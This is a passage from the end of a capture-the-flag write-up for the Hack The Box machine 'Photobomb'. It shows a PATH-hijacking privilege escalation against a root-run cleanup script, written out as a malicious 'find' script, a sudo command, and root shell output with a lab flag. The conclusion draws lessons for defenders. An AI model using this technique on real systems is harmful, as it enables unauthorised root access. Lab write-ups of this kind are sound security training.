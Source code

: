 {% highlight bash %}
#!/bin/bash
bash
{% endhighlight %}

This script will simply open a bash terminal. Since the ```cleanup.sh``` script runs as root, this malicious ```find``` script will also run as root, giving us a root shell. We give our new ```find``` file execute permissions with ```chmod +x find```, update the PATH variable to have ```/tmp``` at the front (this will ensure the malicious ```find``` runs, instead of the benign one), and run the script.

##### Command:
> sudo PATH=/tmp:$PATH /opt/cleanup.sh

When this is run, we get root access! We navigate to the ```root``` directory, and loot our final flag ```root.txt```.

```
root@photobomb:/home/wizard/photobomb# whoami
whoami
root
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt
d96f7d723faa8ca61d10c5cfe4fb4436
```

![alt text](/assets/img/hackthebox/photobomb/pwned.PNG "pwned")

### Conclusion

To conclude, in this machine we found a vulnerable website, injected a cookie to login to the admin portal and injected another cookie to gain initial access with a reverse shell. To escalate privileges, we exploited a simple PATH variable manipulation on the ```find``` command, which did not use an absolute path in the script we found.

This machine has highlighted the importance of not disclosing potential vulnerabilities in comments - we saw that the initial admin login page was to be prepopulated. We could also directly see the cookie we needed to manipulate - this should not have been available for users to see. Furthermore, this machine was yet another instance where non-absolute paths were used in shell scripts. This is such a simple vulnerability to fix, yet so ubiquitous and too easy to exploit.
